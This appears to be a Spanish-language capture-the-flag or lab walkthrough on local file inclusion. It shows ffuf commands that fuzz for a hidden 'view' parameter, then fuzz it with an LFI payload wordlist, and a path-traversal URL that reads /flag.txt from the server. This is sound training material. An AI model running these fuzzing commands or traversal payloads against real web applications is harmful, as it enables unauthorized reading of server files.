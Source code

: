 # LFI: ffuf para automatizar ataques 👩‍💻

La página web que vulneraremos es

![web.PNG](./assets/08-Octavo/01-Web.PNG)

* No tenemos ninguna forma de apuntar a un archivo con algún parámetro. ❓

---

Ahora usaremos `ffuf` para descubrir algún parámetro mediante el cual podremos apuntar a un archivo. 

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<IP Web>:<Puerto>/index.php?FUZZ=value' -fs 2309
```

* `-fs 2309` En mi caso se repetian múltiples parárametro con esta misma cantida de bytes por lo que oculte todas las respuestas con esa cantidad de bytes. 1️⃣0️⃣

<p align="center">
    <img src="/assets/08-Octavo/02-ffuf.PNG">
</p>

---

Ahora que tenemos un parámetro mediante el cual apuntar a un recurso del sistema, automatizaremos `payloads LFI` usando ffuf. 🐶

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ  -u 'http://<IP Web>/index.php?view=FUZZ' -fs 1935
```

<p align="center">
    <img src="/assets/08-Octavo/03-ffuf.PNG">
</p>

---

Con los payloads LFI ya obtenidos obtendremos el contenido del archivo `flag.txt` ubicado en la raiz del sistema `/`

* **URL:** `http://<IP Web>:<Puerto>/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt`

<p align="center">
    <img src="/assets/08-Octavo/04-flag.PNG">
</p>
